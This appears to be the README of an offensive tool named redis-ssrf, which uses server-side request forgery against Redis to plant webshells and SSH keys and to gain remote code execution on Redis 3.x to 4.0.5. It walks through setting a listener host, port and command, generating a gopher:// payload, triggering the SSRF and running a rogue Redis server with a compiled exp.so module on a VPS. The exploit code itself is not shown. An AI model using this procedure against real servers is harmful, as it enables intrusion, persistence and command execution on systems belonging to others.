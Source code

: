 # redis-ssrf
1. ssrf to write files. eg: webshell and ssh key
2. ssrf to rce (3.x <= verion <= 4.0.5)

## Requirements
python2.x 3.x ssrf-redis.py

python2.x rogue-server.py (lazy

## Usage
implememt for demo.

plz read generate_payload function and change payload.

for rce usage:

1. change lhost, lport and command, then    
`> python ssrf-redis.py`    
`> gopher://xxxxx`     

2. triger ssrf

3. meanwhile on vps    
`> python rogue-server.py`   
`> Accepted connection from 192.168.x.x`

(Need to compile a module named exp.so at first or download other's and store it with rogue-server.py)
## Reference
Inspired by https://github.com/n0b0dyCN/redis-rogue-server

Also, modified from https://xz.aliyun.com/t/5665

